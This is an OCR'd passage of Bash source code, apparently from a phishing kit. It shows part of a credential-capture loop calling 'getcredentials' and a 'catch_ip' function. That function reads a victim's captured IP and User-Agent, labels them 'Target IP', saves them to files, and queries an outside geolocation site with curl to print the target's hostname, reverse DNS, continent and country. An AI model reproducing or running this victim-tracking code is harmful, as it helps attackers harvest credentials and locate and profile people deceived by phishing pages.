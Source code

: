   rm -rf info/error.txt
  getcredentials
  else
  echo -e "${m} Error reading file error.txt...${n}"
  exit 1
  fi
  fi
  sleep 0.5



  done


  }

  catch_ip() {
  touch info/saved.geolocate.txt
  ip=$(grep -a 'IP:' info/ip.txt | cut -d " " -f2 | tr -d '\r')
  IFS=$'\n'
  ua=$(grep 'User-Agent:' info/ip.txt | cut -d '"' -f2)
  echo -e "${lh} Target IP:${n}" $ip
  echo -e "${lh} User-Agent:${n}" $ua
  echo -e "${k} Saved:info/saved.ip.txt${n}"
  cat info/ip.txt >> info/saved.ip.txt


  if [[ -e iptracker.log ]]; then
  rm -rf iptracker.log
  fi

  IFS='\n'
  iptracker=$(curl -s -L "www.ip-tracker.org/locator/ip-lookup.php?ip=$ip" --user-agent "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.31 (KHTML, like Gecko) Chrome/26.0.1410.63 Safari/537.31" > iptracker.log)
  IFS=$'\n'
  continent=$(grep -o 'Continent.*' iptracker.log | head -n1 | cut -d ">" -f3 | cut -d "<" -f1)
  echo -e "\n"
  hostnameip=$(grep  -o "</td></tr><tr><th>Hostname:.*" iptracker.log | cut -d "<" -f7 | cut -d ">" -f2)
  if [[ $hostnameip != "" ]]; then
  echo -e "${lh}[*] Hostname:${n}" $hostnameip
  fi


  reverse_dns=$(grep -a "</td></tr><tr><th>Hostname:.*" iptracker.log | cut -d "<" -f1)
  if [[ $reverse_dns != "" ]]; then
  echo -e "${lh}[*] Reverse DNS:${n}" $reverse_dns
  fi



  if [[ $continent != "" ]]; then
  echo -e "${lh}[*] IP Continent:${n}" $continent
  fi


  country=$(grep -o 'Country:.*' iptracker.log | cut -d ">" -f3 | cut -d "&" -f1)
  if [[ $country != "" ]]; then
  echo -e "${lh}[*] IP Country:${n}" $country
  fi
